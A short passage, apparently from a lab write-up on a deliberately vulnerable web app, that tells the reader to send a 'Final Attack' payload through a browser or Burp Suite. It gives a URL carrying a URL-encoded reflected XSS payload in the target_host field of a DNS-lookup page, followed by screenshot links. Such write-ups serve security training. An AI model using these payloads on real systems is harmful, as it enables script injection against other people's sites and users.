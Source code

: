 - Copy the `Final Attack` payload and use it in the browser or BurpSuite to trigger the XSS attack
  - `http://192.131.167.3/index.php?page=dns-lookup.php&target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS`

![](assets/image-20230505000744558.png)

![](assets/image-20230505000524631.png)
